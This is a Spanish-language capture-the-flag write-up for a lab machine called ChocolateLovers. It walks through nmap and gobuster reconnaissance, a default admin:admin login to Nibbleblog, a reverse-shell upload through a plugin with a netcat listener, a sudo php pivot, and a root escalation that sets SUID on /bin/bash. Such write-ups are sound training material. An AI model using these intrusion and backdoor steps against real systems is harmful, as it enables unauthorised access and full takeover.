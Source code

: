 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  26/04/2024
---
```


# ChocolateLovers

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente nos encontramos un directorio comentado llamado `/nibbleblog`.

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos intentamos loguear con credenciales por defecto **admin:admin** y estamos dentro.

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Entramos en plugins en instalar My image y subimos una [Reverse Shell](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Investigamos donde se ha subido el archivo y nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo -u chocolate php -r "system('/bin/bash');"
```

Ahora ya somos el usuario chocolate pero no somos root. Si nos damos cuenta los procesos que están corriendo hay uno que es muy raro.

```bash
ps -faux
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

El archivo no contiene información útil, pero como el usuario `chocolate` es propietario, podemos modificarlo para incluir código **PHP** malicioso que se ejecute como **root**, creando una puerta trasera para escalar privilegios.

```bash
echo "<?php system('chmod +s /bin/bash'); ?>" > script.php
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Ya tenemos permisos SUID y ahora los explotamos. Ya somos **root**.

```bash
/bin/bash -p
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>
